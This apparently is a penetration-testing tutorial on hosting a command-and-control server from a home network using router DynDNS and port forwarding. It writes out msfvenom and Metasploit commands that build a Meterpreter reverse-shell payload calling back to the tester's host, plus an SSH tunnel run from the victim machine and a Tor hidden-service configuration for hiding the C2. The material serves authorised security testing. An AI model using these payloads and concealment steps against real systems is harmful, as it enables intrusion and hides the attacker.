





# C2 Server From the Home Network: A Complete Guide Using Home Router Configuration

## Introduction
Have you ever faced the challenge of testing Remote Code Execution (RCE) vulnerabilities or antivirus bypass techniques on Windows clients when your testing environment doesn't have a public IP address? This is a common scenario for penetration testers and security researchers working from home networks. In this comprehensive guide, I'll demonstrate how to establish a reverse shell connection back to your local Command and Control (C2) server using only a standard home router - all with a zero-cost setup.

## Understanding the Challenge
When conducting security assessments or research, establishing a reverse shell from a target system back to your testing machine can be problematic if you're working from a private network. Traditional methods assume that you have a publicly accessible server. However, this is not necessarily true, as you will see shortly.

## Prerequisites and Router Requirements
To implement this solution, your router must support two essential features:
 - **Dynamic DNS (DynDSN)** - Maps a domain name to your changing public IP address
 - **Port Forwarding** - Redirects external connections to internal network devices

Most modern home routers include these features by default. The examples in this guide use a FRITZ!Box 7530AX from German manufacturer AVM, but the concepts apply to any router with similar capabilities.

### Step 1: Setting Up Dynamic DNS
#### Why Use DynDNS?

Since ISPs typically assign dynamic public IP addresses that change periodically, relying on the IP address directly is impractical. DynDNS solves this by providing a stable domain name that automatically updates to point to your current public IP.

#### Configuration Process
1. **Register for a DynDNS Service**: Use a domain provider that supports this feature, or use a free service like no-ip.com to obtain a free domain
2. **Router Configuration**: Access you router's web interface and navigate to the DynDNS settings sectioin



*FRITZ!Box GUI: the "Use DynDNS" checkbox must be enabled, and you'll need to enter your domain name, username, and password from your DynDNS provider*

### Step 2: Configuring Port Forwarding
Port forwarding is the mechanism that routes external connections from the internet to specific devices on your internal network.

#### Creating a New Port Forwarding Rule


*FRITZ!Box GUI: you have to add new device from the list of available hosts in your home network*

#### Detailed Port Forwarding Configuration


*FRITZ!Box GUI: you have to specify protocol depending on your requirements and port to device the external connection will be forwarded to. Enable Sharing must be checked to activate the rule*

#### Final Port Forwarding Setup


*FRITZ!Box GUI: Port Sharing setup*

### Step 3: Creating the Reverse Shell Payload
With networking configured, create your reverse shell payload using msfvenom:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<either public IP address or DynDNS domain name> lport=1337 -f elf -o met1337.elf
```
This command creates a Linux ELF executable that will connect back to your DynDNS domain on port 1337.

### Step 4: Setting Up the Listener
On your C2 host, start a Metasploit listener:
```
msfconsole -q -x 'use multi/handler ; set payload linux/x64/meterpreter/reverse_tcp ; set lhost <C2's IP>; set lport 1337; exploit'
```


*The terminal shows a successful Meterpreter session establishment with session details and available commands*

## Advanced Security: Adding SSH Tunneling
For enhanced security, you can route your reverse shell traffic through an encrypted SSH tunnel.

### SSH Tunnel Configuration
First, set up port forwarding for SSH



*FRITZ!Box's Web Interface: protocol ssh:// and port to device*

Create an SSH tunnel from the victim machine back to your C2 server via SSH local port forwarding:
```
ssh -N -L 127.0.0.1:1337:127.0.0.1:1337 kali@<public IP or DynDNS domain name>
```
When using SSH tunneling, both Metasploit listener and Metasploit beacon should be modified appropriately:

```
msfconsole -q -x 'use multi/handler ; set payload linux/x64/meterpreter/reverse_tcp ; set lhost 127.0.0.1; set lport 1337; set ReverseListenerBindAddress 127.0.0.1; set ReverseListenerBindPort 1337; exploit'
```

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=1337 -f elf -o met1337.elf
```


*Successfully established a reverse shell connection over an SSH tunnel*

### Maximum Privacy: Adding Tor to the Mix

You can add a privacy level by pushing all traffic over the Tor network.

#### Tor Configuration
The Tor configuration typically involves modifying the /etc/tor/torrc file:
```
ControlPort 9051
CookieAuthentication 1
CookieAuthFileGroupReadable 1

HiddenServiceDir /var/lib/tor/hidden_service_ssh/
HiddenServiceVersion 3
HiddenServicePort 22 192.168.178.51:22
```
After restarting the tor service on your C2 server, check the file /var/lib/tor/hidden_service_ssh/hostname file to find the Tor address of your C2 server.

For establishing an SSH tunnel over Tor, use the torify command as follows:


*Creating an SSH local port forwarding over the Tor network*

The reverse shell connection remains the same, but traffic now routes through the Tor network for enhanced privacy.

### Conclusion
This guide demonstrates how to establish a reverse shell connection to your local testing environment using standard home networking equipment. By combining DynDNS, port forwarding, and optional security layers like SSH tunneling and Tor, you can create a robust testing infrastructure without requiring expensive hosting solutions.

Remember to use these techniques only in authorized testing environments and always follow responsible disclosure practices when conducting security research.
